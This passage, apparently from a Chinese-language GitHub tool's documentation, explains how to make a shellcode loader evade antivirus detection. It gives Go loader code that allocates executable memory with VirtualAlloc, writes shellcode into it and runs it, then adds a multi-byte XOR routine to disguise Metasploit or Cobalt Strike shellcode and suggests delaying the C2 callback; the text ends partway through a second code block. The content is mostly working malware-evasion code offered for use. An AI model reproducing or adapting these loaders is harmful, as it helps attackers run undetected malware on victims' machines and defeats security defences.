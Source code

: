 ## 如何将一个不免杀的源码变为免杀的？

以 go\_VirtualAlloc 模板为例，下面的代码没有对 shellcode 做加密操作，这样的 loader 如果使用 msf 或者 cobaltstrike 生成的 shellcode 或被杀，因为 cobaltstrike msf 的 shellcode 存在时间太长了，已经被各大厂商做了特征识别。

```plain
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    syscall.SyscallN(Ptr1, 0, 0, 0, 0)
}

func main() {

    ciphertext := []byte{{{Shellcode}}}

    Ldr1(ciphertext)
}
```

我们需要做的就是改变 shellcode 模样，使用多字节 xor 来改变 shellcode。如下所示

在同样的的 api 调用下  
增加一些基础的多字节 xor 就可以完成免杀，已集成在自带模板中  
也可以增加延迟触发（在运行后不会马上请求 c2 服务器）而是等一段时间

```plain
func XorDecrypt(plaintext []byte, key []byte) []byte {
    ciphertext := make([]byte, len(plaintext))
    keyLength := len(key)
    for i, byte := range plaintext {
        keyByte := key[i % keyLength]
        encryptedByte := byte ^ keyByte
        ciphertext[i] = encryptedByte
    }
    return ciphertext
}

func DecryptData(v2 []byte) []byte {
    key := []byte{{{Key}}}
    v222 := XorDecrypt(v2, key)
    return v222
}

func WriteMemory(inbuf []byte, destination uintptr) {
    for index := uint32(0); index < uint32(len(inbuf)); index++ {
        writePtr := unsafe.Pointer(destination + uintptr(index))
        v := (*byte)(writePtr)
        *v = inbuf[index]
    }
}

func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
```